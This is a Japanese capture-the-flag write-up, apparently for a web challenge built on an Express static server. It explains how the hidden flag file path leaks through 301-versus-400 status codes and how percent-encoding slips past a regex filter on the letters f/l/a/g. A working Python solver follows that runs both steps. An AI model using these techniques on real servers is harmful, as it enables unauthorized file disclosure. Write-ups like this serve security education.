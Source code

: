 ```javascript title="web/index.js"
app.use(express.static("public"));

app.get("/", (req, res) => res.type("html").send(html));

app.listen(3000);
```

`./public`以下のファイルには外部からアクセス可能な設定になっているため、以下の2つを達成することでフラグのファイルを取得することがこの問題のゴールです。

- 未知である`FLAG_PATH`のパスを特定する方法を見つける。
- `f`/`l`/`a`/`g` の文字を使わずにファイルにアクセスする。

### 想定解法

まずは、あるURLにアクセスしたときに該当パスにファイルが存在するかどうかによって、何らかの差異が発生しないか調査しましょう。試してみると、リダイレクトの有無によってレスポンスのステータスコードが異なることがわかります:

- ファイルが存在する場合 → リダイレクトが発生するため、ステータスコードが301になる。
- ファイルが存在しない場合 → リダイレクトが発生せず、ステータスコードが400になる。

よって、`0123456789abcdef`の文字を全探索することによってフラグのファイルパスを1文字ずつ先頭から確定することができるため、パス全体の特定が可能になります。

また、`req.url`はパーセントデコードされない文字列がそのまま使われるため、リクエスト時のURLパス部分にパーセントエンコードされた文字を使用すると、`/[flag]/.test(req.url)`をバイパスすることが可能です:

- 例: `f`→`%66`, `l`→`%6C`

### ソルバ

```python
import os
import httpx

HOST = os.getenv("HOST", "localhost")
PORT = int(os.getenv("PORT", 3000))

BASE_URL = f"http://{HOST}:{PORT}"

client = httpx.Client(base_url=BASE_URL)

chars = "0123456789abcdef" + "flagtxt"

known = []
while True:
    print(known)
    for c in chars:
        path = "/".join(["%" + hex(ord(x))[2:].zfill(2).upper() for x in known + [c]])
        res = client.get(path, follow_redirects=False)
        if res.status_code == 200:
            print(res.text)
            exit(0)
        if res.status_code == 301:
            known.append(c)
            break
    else:
        print("Failed")
        exit(1)
```
